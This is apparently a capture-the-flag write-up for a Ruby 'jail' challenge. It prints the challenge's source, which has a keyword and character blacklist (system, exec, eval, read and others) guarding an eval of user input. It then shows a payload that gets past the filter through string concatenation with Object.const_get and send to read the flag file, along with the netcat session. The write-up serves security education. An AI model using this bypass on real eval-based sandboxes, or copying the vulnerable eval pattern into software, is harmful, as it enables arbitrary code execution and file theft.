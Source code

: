 # Eevee Jail - 5

Now, this time we are given a Ruby jail, we're getting all sorts of language jails aren't we here...

{% tabs %}
{% tab title="jail-5.rb" %}
```ruby
#!/usr/bin/env ruby

ALLOWED_COMMANDS = ["ls"]

def sanitize_input(input)
  forbidden_words = %w[flag eval system read exec irb puts dir]
  
  forbidden_pattern = /\b(?:#{forbidden_words.join('|')})\b/

  if input.match(/[&|<>$`]/) || input.match(forbidden_pattern)
    return false
  end
  true
end

def execute_command(cmd)
  if ALLOWED_COMMANDS.include?(cmd.split.first)
    system(cmd)
  else
    puts "Command not allowed!"
  end
end

puts "========================\n"
puts "=    Eevee's Jail 5    =\n"
puts "========================\n"

while true
  print "[+] > "
  input = gets.chomp

  unless sanitize_input(input)
    puts "Invalid characters detected!"
    next
  end

  if input.start_with?("ruby:")
    begin
      eval(input[5..])
    rescue Exception => e
      puts "Error: #{e.message}"
    end
    next
  end

  execute_command(input)
end
```
{% endtab %}
{% endtabs %}

We can see that it checks for:

```
flag, eval, system, read, exec, irb, puts, dir
```

And some special characters:

```
&|<>$`
```

and later of that it checks for the prefix, making sure our input starts with "`ruby:` ", after that it gets passed to `eval()`

So, my plan was to use the `File` class and concatenate the blacklisted words effectively bypassing them and reading the flag

```ruby
ruby:p Object.const_get("File").send(:open, "fl" + "ag.txt").send("re" + "ad")
```

```
❯ nc 157.180.92.15 52609
             
========================
=    Eevee's Jail 5    =
========================
[+] > ruby:p Object.const_get("File").send(:open, "fl" + "ag.txt").send("re" + "ad")
ruby:p Object.const_get("File").send(:open, "fl" + "ag.txt").send("re" + "ad")
"bbctf{different language, same approach xx}\n"
```

Flag: `bbctf{different language, same approach xx}`

